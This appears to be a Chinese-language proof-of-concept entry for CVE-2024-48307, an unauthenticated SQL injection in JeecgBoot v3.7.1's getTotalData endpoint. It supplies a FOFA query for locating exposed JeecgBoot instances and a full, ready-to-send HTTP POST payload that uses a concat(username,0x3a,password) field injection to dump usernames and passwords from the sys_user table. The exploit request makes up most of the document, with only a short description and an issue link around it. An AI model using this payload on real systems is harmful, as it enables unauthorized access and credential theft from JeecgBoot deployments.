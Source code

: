 # JeecgBoot接口getTotalData存在未授权SQL注入漏洞(CVE-2024-48307)

JeecgBoot v3.7.1被发现包含通过组件/onlDragDatasetHead/getTotalData的SQL注入漏洞。

## fofa

```javascript
body="jeecg-boot"
```

## poc

```javascript
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284

{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```

![image-20241128101830162](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281018255.png)

## 漏洞来源

- https://github.com/jeecgboot/JeecgBoot/issues/7237
